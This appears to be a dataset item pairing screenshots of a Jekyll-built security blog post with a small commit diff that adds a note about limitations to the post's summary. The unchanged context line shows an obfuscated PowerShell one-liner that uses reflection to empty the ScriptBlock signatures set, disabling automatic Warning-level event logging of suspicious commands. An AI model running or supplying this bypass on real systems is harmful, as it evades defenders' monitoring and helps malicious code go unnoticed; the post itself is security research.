

Before and after one commit to cobbr/cobbr.io, a Jekyll site: the page built from _posts/2017-05-02-ScriptBlock-Warning-Event-Logging-Bypass.md, in a window 1280 px wide and 900 px high, cut to the strip 0-612 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Added note

````diff
--- a/_posts/2017-05-02-ScriptBlock-Warning-Event-Logging-Bypass.md
+++ b/_posts/2017-05-02-ScriptBlock-Warning-Event-Logging-Bypass.md
@@ -7,7 +7,7 @@ tags: PowerShell
 
 ## tl;dr
 
-PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability:
+PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability: (*note: there are limitations, please see the end of this post for more details*)
 
 ```
 PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
````
